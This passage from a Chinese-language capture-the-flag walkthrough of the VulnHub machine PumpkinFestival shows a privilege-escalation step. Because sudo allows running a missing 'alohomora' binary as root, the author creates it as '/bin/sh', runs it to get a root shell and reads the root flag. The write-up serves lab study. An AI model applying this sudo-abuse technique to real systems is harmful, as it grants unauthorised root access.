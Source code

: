 ![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Mission-Pumpkin/PumpkinFestival/19.png)

可以已 root 权限运行 alohomora 程序,但是并没有找到这个文件，那直接创建个可提权的程序即可

```bash
mkdir pumpkins
echo "/bin/sh" > /home/jack/pumpkins/alohomora
chmod +x /home/jack/pumkins/alohomora
cd /home/jack/pumkins/
sudo ./alohomora
id
cd /root
ls
cat PumpkinFestival_Ticket
```

提权成功
